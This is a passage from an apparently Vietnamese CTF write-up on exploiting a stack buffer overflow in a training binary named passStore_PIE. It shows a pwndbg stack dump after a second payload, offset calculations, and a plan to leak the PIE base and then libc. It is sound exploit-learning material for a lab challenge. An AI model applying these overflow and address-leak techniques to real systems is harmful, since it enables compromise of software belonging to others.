 Stack sau khi send payload2 để quay lại **main+53**

```shell
pwndbg> stack 50
00:0000│ rsi rsp 0x7fff14ebfa60 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
... ↓            6 skipped
07:0038│         0x7fff14ebfa98 ◂— 0x8dda103545364600
08:0040│ rbp     0x7fff14ebfaa0 ◂— 0x6161616161616161 ('aaaaaaaa')
09:0048│         0x7fff14ebfaa8 —▸ 0x55877522e292 (main+58) ◂— mov eax, 0
0a:0050│         0x7fff14ebfab0 ◂— 0x1
0b:0058│         0x7fff14ebfab8 —▸ 0x7f359a743d90 (__libc_start_call_main+128) ◂— mov edi, eax
0c:0060│         0x7fff14ebfac0 ◂— 0x0
0d:0068│         0x7fff14ebfac8 —▸ 0x55877522e258 (main) ◂— endbr64
0e:0070│         0x7fff14ebfad0 ◂— 0x100000000
0f:0078│         0x7fff14ebfad8 —▸ 0x7fff14ebfbc8 —▸ 0x7fff14ec1346 ◂— '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_PIE/passStore_PIE'
10:0080│         0x7fff14ebfae0 ◂— 0x0
11:0088│         0x7fff14ebfae8 ◂— 0x8043fcf311f93ffc
12:0090│         0x7fff14ebfaf0 —▸ 0x7fff14ebfbc8 —▸ 0x7fff14ec1346 ◂— '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_PIE/passStore_PIE'
13:0098│         0x7fff14ebfaf8 —▸ 0x55877522e258 (main) ◂— endbr64
14:00a0│         0x7fff14ebfb00 —▸ 0x558775230da8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x55877522e160 (__do_global_dtors_aux) ◂— endbr64
15:00a8│         0x7fff14ebfb08 —▸ 0x7f359a985040 (_rtld_global) —▸ 0x7f359a9862e0 —▸ 0x55877522d000 ◂— 0x10102464c457f
16:00b0│         0x7fff14ebfb10 ◂— 0x7fbdd524e47b3ffc
17:00b8│         0x7fff14ebfb18 ◂— 0x7e28c81b6b733ffc
18:00c0│         0x7fff14ebfb20 ◂— 0x0
... ↓            4 skipped
1d:00e8│         0x7fff14ebfb48 ◂— 0x8dda103545364600
1e:00f0│         0x7fff14ebfb50 ◂— 0x0
1f:00f8│         0x7fff14ebfb58 —▸ 0x7f359a743e40 (__libc_start_main+128) ◂— mov r15, qword ptr [rip + 0x1ef159]
20:0100│         0x7fff14ebfb60 —▸ 0x7fff14ebfbd8 —▸ 0x7fff14ec1397 ◂— 'SHELL=/bin/bash'
21:0108│         0x7fff14ebfb68 —▸ 0x558775230da8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x55877522e160 (__do_global_dtors_aux) ◂— endbr64
22:0110│         0x7fff14ebfb70 —▸ 0x7f359a9862e0 —▸ 0x55877522d000 ◂— 0x10102464c457f
23:0118│         0x7fff14ebfb78 ◂— 0x0
24:0120│         0x7fff14ebfb80 ◂— 0x0

```

```python
>>> 0x7fff14ebfac8 - 0x7fff14ebfa60
104
>>> 0x7fff14ebfaa8 - 0x7fff14ebfa60
72
>>> 0x7fff14ebfb58 - 0x7fff14ebfa60
248
```

Như đã thấy thì để leak libc cần tới ***248 bytes***, nếu ghi đè hết ***248 bytes*** trước thì ghi đè nốt mấy cái khác, do đó ta sẽ libc leak sau khi leak và calc pie_base( mình cũng đã update thêm cách solve chall NoPie. Tương tự như chall này).
